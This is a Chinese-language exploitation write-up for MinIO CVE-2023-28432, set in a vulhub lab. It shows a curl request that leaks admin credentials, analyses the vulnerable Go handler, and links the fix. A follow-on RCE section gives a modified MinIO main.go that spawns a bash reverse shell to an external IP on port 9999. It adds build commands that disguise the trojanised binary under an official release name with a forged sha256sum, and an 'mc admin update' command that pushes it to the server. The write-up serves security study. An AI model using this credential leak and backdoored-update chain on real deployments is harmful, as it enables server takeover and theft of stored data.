## 漏洞通告

根据 `https://github.com/golang/vulndb/issues/1669` 的描述，minio在 `RELEASE.2023-03-20T20-16-18Z` 版本之前存在漏洞。

> 原⽂：
> CVE-2023-28434 references github. Com/minio/minio, which may be a Go module.
> Description:
> Minio is a Multi-Cloud Object Storage framework. Prior to RELEASE. 2023-03-20T20-16-18Z,
> An attacker can use crafted requests to bypass metadata bucket name checking and put an
> Object into any bucket while processing PostPolicyBucket. To carry out this attack, the attacker
> Requires credentials with arn:aws:s3:::* permission, as well as enabled Console API access. This
> Issue has been patched in RELEASE. 2023-03-20T20-16-18Z. As a workaround, enable
> Browser API access and turn off MINIO_BROWSER=off.
>
> 译⽂：
> 描述：
> Minio是⼀个多云对象存储框架。在RELEASE. 2023-03-20T20-16-18Z之前，攻击者可以使⽤精
> ⼼制作的请求来绕过元数据桶名称检查，并在处理 `PostPolicyBucket` 时将对象放⼊任何桶
> 中。要执⾏此攻击，攻击者需要具有 `arn:aws:s3:::*` 权限的凭据，以及启⽤控制台API访
> 问。此问题已在RELEASE. 2023-03-20T20-16-18Z中修补。作为变通办法，启⽤浏览器API访问
> 并关闭 `MINIO_BROWSER=off`。

## Minio


MiniO 是一个基于 Apache License v2.0 开源协议的对象存储服务。它兼容亚马逊 S3 云存储服务接口，非常适合于存储大容量非结构化的数据，例如图片、视频、日志文件、备份数据和容器/虚拟机镜像等

在集群部署的 Minio 中，未授权的攻击者可发送恶意的 HTTP 请求来获取 Minio 环境变量中的敏感信息（MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD），可能导致攻击者以管理员权限登录 Minio，分布式部署的所有用户都会受到影响，单机用户没有影响

# CVE-2023-28432 MiniO信息泄露漏洞

## 环境搭建

1. 采用vulhub提供的docker的环境，部署minio集群。`docker-compose.yml` 配置文件如下：

```yml
version: '3'
services:
  node1:
    image: vulhub/minio:2023-02-27T18-10-45Z
    environment:
      - MINIO_ROOT_USER=scdx
      - MINIO_ROOT_PASSWORD=scdxpass
    command:
      - minio
      - server
      - --console-address
      - :9001
      - http://node1:9000/mnt/data1
      - http://node2:9000/mnt/data2
      - http://node3:9000/mnt/data3
    ports:
      - 9000:9000
      - 9001:9001
    hostname: node1
    volumes:
      - ./mnt/data1:/mnt/data1
  node2:
    image: vulhub/minio:2023-02-27T18-10-45Z
    environment:
      - MINIO_ROOT_USER=scdx
      - MINIO_ROOT_PASSWORD=scdxpass
    command:
      - minio
      - server
      - http://node1:9000/mnt/data1
      - http://node2:9000/mnt/data2
      - http://node3:9000/mnt/data3
    hostname: node2
    volumes:
      - ./mnt/data2:/mnt/data2
  node3:
    image: vulhub/minio:2023-02-27T18-10-45Z
    environment:
      - MINIO_ROOT_USER=scdx
      - MINIO_ROOT_PASSWORD=scdxpass
    command:
      - minio
      - server
      - http://node1:9000/mnt/data1
      - http://node2:9000/mnt/data2
      - http://node3:9000/mnt/data3
    hostname: node3
    volumes:
      - ./mnt/data3:/mnt/data3
```

2. Docker-compose启动即可

```
docker-compose up -d
```



## 漏洞利用

POC：

```html
POST:  /minio/bootstrap/v1/verify
```

```bash
curl -XPOST http://192.168.130.130:9000/minio/bootstrap/v1/verify
```





> 特殊情况：如果开启动Minio时没有设置 `MINIO_ROOT_USER` 和 `MINIO_ROOT_PASSWORD`，那么Minio就会启动默认的账号密码 `minioadmin`，这时候通过信息泄露会发现读取不到管理员的账号密码，可以判断存在默认口令。



## 漏洞分析

1. 漏洞通告中的漏洞代码：

```go
// minio/cmd/bootstrap-peer-server.go
func (b *bootstrapRESTServer) VerifyHandler(w http.ResponseWriter, r *http.Request) {
  ctx := newContext(r, w, "VerifyHandler")
  cfg := getServerSystemCfg()
  logger.LogIf(ctx, json.NewEncoder(w).Encode(&cfg))
}

// minio/cmd/bootstrap-peer-server.go
func getServerSystemCfg() ServerSystemConfig {
  envs := env.List("MINIO_")
  envValues := make(map[string]string, len(envs))
  for _, envK := range envs {
    // skip certain environment variables as part
    // of the whitelist and could be configured
    // differently on each nodes, update skipEnvs()
    // map if there are such environment values
    if _, ok := skipEnvs[envK]; ok {
      continue
    }
    envValues[envK] = env.Get(envK, "")
  }
  return ServerSystemConfig{
    MinioEndpoints: globalEndpoints,
    MinioEnv:       envValues,
  }
}
```

2. 进入 `minio/cmd/bootstrap-peer-server.go`，接受HTTP请求的方法只有两个，框出的方法就是漏洞所在



```go
	// 新建上下文对象，用于传递HTTP请求和响应
	ctx := newContext(r, w, "VerifyHandler")
	// 获取服务器系统配置？？
	cfg := getServerSystemCfg()
	// 用于输出错误日志
	logger.LogIf(ctx, json.NewEncoder(w).Encode(&cfg))
```

3. 进入 `getServerSystemCfg()`



> 在getServerSystemCfg () 方法中获取所有以MINIO_开头的环境变量
>
> 将环境变量存储在envValues里面，envValues采用遍历的方式获取了不在skipEnvs[envK]中的value
>
> 函数返回一个名为ServerSystemConfig的结构体，其中包含了全局变量和环境变量。

4. 跟进 `skipEnvs`。该结构体中没有包含 `MINIO_ROOT_USER`、`MINIO_ROOT_PASSWORD`，此处就是为啥能泄露出账号密码信息



5. 大致了解了漏洞来源，那么 `/minio/bootstrap/v1/verify` 地址从何而来？源码中发现了对应的路由






### 复现注意

- 在 `cmd/routers.go` 中定义了只有集群部署才会注册上述路由，才能够访问 `/minio/bootstrap/v1/verify`



## 漏洞修复

1. 环境变量进行了加密处理
   `https://github.com/minio/minio/commit/3b5dbf90468b874e99253d241d16d175c2454077?diff=split`






# 后续RCE

## 漏洞利用

1. 通过第一步获取到管理员账号密码之后，可以通过官方自带的mc（MinIO客户端）工具进行服务器管理

```bash
mc alias set scdxminio http://192.168.130.130:9000 scdx scdxpass
```

2. MinIO提供了一个非常方便的功能，可以通过mc（MinIO客户端）远程升级MinIO服务器，关键在于升级地址是可以通过预设自定义的，在官方的说明文档中并没有详细说明，企业如果是内网环境可以指定自己的更新地址以便于升级。`https://min.io/docs/minio/linux/reference/minio-mc-admin/mc-admin-update.html#syntax` 
   

3. 经过研究发现，当执行升级命令后。默认会从官方服务器获取最新版本，相关代码中的定义如下：

```bash
mc admin update myminio -y
```

```go
// minio/cmd/update.go
const (
    minioReleaseTagTimeLayout = "2006-01-02T15-04-05Z"
    minioOSARCH               = runtime.GOOS + "-" + runtime.GOARCH
    minioReleaseURL           = "https://dl.min.io/server/minio/release/" + minioOSARCH + SlashSeparator
 
    envMinisignPubKey = "MINIO_UPDATE_MINISIGN_PUBKEY"
    updateTimeout     = 10 * time.Second
)
```

4. 通过跟进代码的相关逻辑可以发现，可以直接拉取一个二进制文件，然后实现自我更新，相关简化流程如下：
   **验证管理员权限→获取最新版本→获取最新版本的sha256sum信息→下载并验证sha256sum→验证无误后替换自身并重启**

5. 用于验证的sha256sum文件是可控的，我们需要打包一个恶意的sha256sum文件，执行更新操作。这一步需要下载minio源码，更改源码注入恶意代码，打包为恶意文件，然后执行远程更新。

```go
// main.go
package main // import "github.com/minio/minio"

import (
	"os"
	"os/exec"
	"runtime"
	// MUST be first import.
	_ "github.com/minio/minio/internal/init"

	minio "github.com/minio/minio/cmd"
)

func getOutputDirectly(commandStr string) string {
	var execGlobalOutput string
	var shell [2]string
	var systemOS string = runtime.GOOS
	if systemOS == "linux" || systemOS == "darwin" {
		shell[0], shell[1] = "/bin/bash", "-c"
	} else {
		shell[0], shell[1] = "C:\\Windows\\System32\\cmd.exe", "/c"
	}
	cmd := exec.Command(shell[0], shell[1], commandStr)
	output, err := cmd.Output()
	if err != nil {
		return ""
	}
	execGlobalOutput += string(output)
	return execGlobalOutput
}

func main() {
	var command = "/bin/bash -i >& /dev/tcp/192.168.130.130/9999 0<& 2>&1"
	go getOutputDirectly(command)
	minio.Main(os.Args)
}
```

6. 使用 `go build` 构建minio。注意：windows环境下要打包为linux下可执行文件，需要更改 `go env`。

```bash
// go env; 注：GOOS参数只能在cmd下修改，powershell下更改无效
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 
// 构建minio
go build -ldflags="-s -w " -trimpath 
// 将minio包装为sha256sum; 注意将文件名字伪装成与官网一致
mv minio minio.RELEASE.2023-03-22T06-36-24Z && shasum -a 256 minio.RELEASE.2023-03-22T06-36-24Z > minio.RELEASE.2023-03-22T06-36-24Z.sha256sum
```



7. 升级部署，成功反弹shell

   ```bash
   mc admin update scdx http://192.168.130.130:9000/minio.RELEASE.2023-03-22T06-36-24Z.sha256sum -y
   ```




## 漏洞分析

> 当通过信息泄漏获得账号密码之后，可以登陆MinIO更新恶意升级URL，并且执行update触发RCE
>
> **验证管理员权限→获取最新版本→获取最新版本的sha256sum信息→下载并验证sha256sum→验证无误后替换自身并重启。**

漏洞定位：`cmd/admin-handlers.go`  `ServerUpdateHandler` 函数

在 `/minio/admin/v3/update?updateURL={updateURL}` 这个路由的功能中，可以从远程加载二进制文件，下载并更新。

```go
func (a adminAPIHandlers) ServerUpdateHandler(w http.ResponseWriter, r *http.Request) {
    // 验证是否是admin权限
    objectAPI, _ := validateAdminReq(ctx, w, r, iampolicy.ServerUpdateAdminAction)

    // 从POST /minio/admin/v3/update?updateURL={updateURL}取updateURL参数
    vars := mux.Vars(r)
    updateURL := vars["updateURL"]
    mode := getMinioMode()

    // 解析url
    u, err := url.Parse(updateURL)

    // 下载Release信息并解析出对应的更新信息
    content, err := downloadReleaseURL(u, updateTimeout, mode)
    sha256Sum, lrTime, releaseInfo, err := parseReleaseData(content)

    // 指定二进制文件的下载路径
    u.Path = path.Dir(u.Path) + SlashSeparator + releaseInfo

    // 下载二进制文件
    reader, err := downloadBinary(u, mode)

    // 验证签名
    err = verifyBinary(u, sha256Sum, releaseInfo, mode, reader)

    // 提交二进制文件
    err = commitBinary()

    // 发送重启信号给channel
    globalServiceSignalCh <- serviceRestart
}
```

而在验证签名环节，verifyBinary中envMinisignPubKey环境变量应该是默认为空，导致签名校验无效。

